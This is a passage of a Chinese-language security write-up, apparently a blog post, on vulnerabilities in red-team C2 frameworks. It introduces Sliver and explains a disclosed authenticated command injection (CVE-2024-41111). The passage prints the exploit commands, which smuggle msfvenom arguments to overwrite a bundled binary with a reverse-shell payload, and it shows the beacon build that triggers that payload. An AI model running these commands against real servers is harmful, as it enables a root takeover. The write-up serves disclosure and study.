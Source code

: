 进行身份验证</span></section></td><td valign="top" style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf=""><br/></span></section></td></tr></tbody></table>  
## C2 框架漏洞  
  
了解了背景之后，现在让我们看看各个 C2 框架。  
### Sliver  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lSQtsngIibibTcTIOLhWNLHeKJ3KnJXLAwUjxNDnyRnkbM6TibtPwBBB9BNWibUOGfSjkkf7oRw9wpiaU3IKTfDh36A/640?wx_fmt=png&from=appmsg "")  
#### Sliver 介绍  
  
Sliver 是一款 Golang 编写的框架：代理、团队服务器和客户端均使用 Go 编写。任何喜欢 Linux 命令行的人都会对 Sliver 的 UI（即 CLI）感到熟悉，尽管也可以编写自定义客户端。架构和代码质量很高，使用 GRPC over mTLS 进行客户端-服务器通信，并可选择使用 mTLS、Wireguard、HTTPS 或 DNS 作为代理-服务器流量的传输协议。  
  
我发现 Sliver 的代理（“植入物”）功能强大且可靠，同时在 HackTheBox ProLabs Active Directory 网络上调整和提升权限。Sliver 提供了多种执行第三方工具的方法，而 Sliver 的真正魔力在于军械库功能，它提供了大量的扩展，而且很容易添加您自己的扩展。代理还支持运行信标对象文件 （BOF），这是一种由 Cobalt Strike 开发的与位置无关的代码格式，因此 Sliver 可以访问 BOF 的开源库。对于学习，Dominic Breuker 有一系列出色的博客文章。  
#### 经过身份验证的命令注入  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lSQtsngIibibTcTIOLhWNLHeKJ3KnJXLAwtS4tkyQwTYlheOTMv9mHQZicehAO39iaasnksw4XgOUI2NZOfuaaJNuQ/640?wx_fmt=png&from=appmsg "")  
  
在查看 Sliver 的最新预发布版本 （1.6.0） 的 stager 代码时，我看到了一种方法，任何 Sliver 操作员（即经过身份验证的用户）都可以在 teamserver 上获取根 shell。这打破了 Sliver 的威胁模型，即“运营商和服务器之间有明确的安全边界，运营商本身就不应该能够在服务器上运行命令或代码”。Sliver 具有多人游戏模式，并正在添加基于角色的访问控制，以便为操作员分配精细权限。红队操作通常由许多人组成，一个低权限团队成员的入侵不应导致对服务器的完全管理控制。 这也是一个非常有趣的漏洞，因为我们让 teamserver 使用 Metasploit 来 pwn 自己。我们基本上在服务器上执行 Metasploit 暂存器有效负载，而不是将其发送到操作员客户端以部署到目标系统上。 Sliver 团队报告了这个漏洞，并在稳定版本中发布之前将其修复为 CVE-2024-41111。  
  
Sliver 支持 Metasploit 暂存器。在后台，Metasploit 暂存器使用 Go 的 exec 调用 msfvenom。Command（） 的在将用户选项插入到命令字符串之前，会对其进行验证。去年添加了一项功能，为 stager 提供高级选项。此更改的目的是控制 EXITFUNC=thread 等选项，但此更改允许为 msfvenom 指定其他命令行参数。msfvenom 的一个参数是 --out，它将有效负载写入文件而不是标准输出。这使我们能够将 msfvenom 有效负载写入 teamserver 上的任意文件。  
  
我们在/root/.sliver/go/bin/garble  
 处覆盖 Sliver 自己的捆绑二进制文件之一：  
```
sliver > generate msf-stager --lhost 192.168.0.128 --lport 8888 --advanced --platform=linux&--payload=linux/x64/shell_reverse_tcp&--format=elf&--out=/root/.sliver/go/bin/garble
[*] Sliver implant stager saved to: [...]

```  
  
在攻击系统 192.168.0.128 的端口 8888 上设置netcat shell  
。然后通过运行代理编译命令来触发漏洞利用，该命令间接执行/root/.sliver/go/bin/garble  
：  
```
sliver > generate beacon --mtls 1.2.3.4
[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
 та╝  Compiling, please wait ...

```  
  